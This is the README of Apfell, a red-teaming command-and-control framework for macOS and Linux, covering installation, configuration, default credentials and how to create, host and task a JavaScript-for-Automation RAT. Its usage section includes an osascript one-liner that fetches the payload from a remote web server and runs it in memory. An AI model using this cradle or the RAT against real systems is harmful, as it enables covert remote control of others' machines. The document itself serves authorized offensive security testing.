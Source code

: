 # Apfell
A macOS, post-exploit, red teaming framework built with python3 and JavaScript. It's designed to provide a collaborative and user friendly interface for operators, managers, and reporting throughout mac and linux based red teaming. This is a work-in-progress as I have free time, so please bear with me.

## Details
Check out my [blog post](https://its-a-feature.github.io/posts/2018/07/bare-bones-apfell-server-code-release/) on the initial release of the framework and what the bare bones content can do.

## Installation

- Get the code from this github:
```bash
git clone https://github.com/its-a-feature/Apfell
```
- Install and setup the requirements (Note: The Sanic webserver says it only works on Linux). The setup script will also create a default user `apfell_admin` with a default password `apfell_password` that can be used. It's recommended to change this user's password after installing though.
```bash
# The setup.sh will install postgres and pip3 install the requirements
cd Apfell && chmod +x setup.sh && sudo ./setup.sh && cd ..
```

- Configure the installation in app/\_\_init\_\_.py. If you change any of the `db_*` variables here, you will need to reflect these changes in the `reset_db` script. I will eventually make one place to do all this, but right now the setup script creates things and this config file uses things.
```bash
# -------- CONFIGURE SETTINGS HERE -----------
db_name = 'apfell_db'
db_user = 'apfell_user'
db_pass = 'super_secret_apfell_user_password'
server_ip = '127.0.0.1'  # this will be used by the browser to callback here, edit this!
listen_port = '443'
listen_ip = '0.0.0.0'  # IP to bind to for the server, 0.0.0.0 means all local IPv4 addresses
ssl_cert_path = './app/ssl/apfell-cert.pem'
ssl_key_path = './app/ssl/apfell-ssl.key'
use_ssl = True
```
- There is currently an issue with Sanic and websockets 6/7 (tracked issue, but no pull request yet)
You need to edit Sanic with a slight update (I'm going to make a pull request for Sanic so we don't need to do this, but that'll take a little while). In the meantime, do `sudo find / -type f -name "app.py"` to find the appropriate Sanic file to edit.
In here, find the line that says `protocol = request.transport._protocol` and edit it to be:
```python
if hasattr(request.transport, '_app_protocol'): 
    protocol = request.transport._app_protocol
else: 
    protocol = request.transport._protocol
```
## Usage
- Start the server:
```bash
python3 server.py 
[2018-07-16 14:39:14 -0700] [28381] [INFO] Goin' Fast @ https://0.0.0.0:443
```
By default, the server will bind to 0.0.0.0 on port 443. This is an alias meaning that it will be listening on all IPv4 addresses on the machine. You don't actually browse to https://0.0.0.0:443 in your browser. Instead, you'll browse to either https://localhost:443 if you're on the same machine that's running the server, or you can browse to any of the IPv4 addresses on the machine that's running the server. You could also browse to the IP address you specified in `server_ip = '192.168.0.119'` in the installation section.
- Browse to the server with any modern web browser  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/Welcome.JPG)

- Create a new user:  
When you run the server, a default user account "apfell_admin" with a password of "apfell_password" is created. This allows me to setup the default c2 profiles as well since they have to be tied to a specific operator. You can either use this account or create a new one.
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/Register.JPG)

- Create a new payload:  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-create-jxa.JPG)

- Host the new payload:  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/web_hosting.JPG)
This will start a python simple web server in the `/tmp` directory on port `8080`.

- Pull down and execute payload in memory:
```bash
osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('HTTP://192.168.0.119:8080/apfell-jxa')),$.NSUTF8StringEncoding)));" 
```
- Interact with the new RAT:
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-tasking.JPG)

### In-Server Help
Once you've logged into Apfell, you can access some additional help. 
- CommandLines - provides information about how to interact with the RESTful interface via terminal and Curl
- Documentation - will eventually provide a more thorough manual of how Apfell is organized, how to extend it, how logging works, and how to interact with the dashboards
- apfell-jxa help - provides help on the command lines that can be sent to the apfell-jxa RAT, how they work, and their parameters
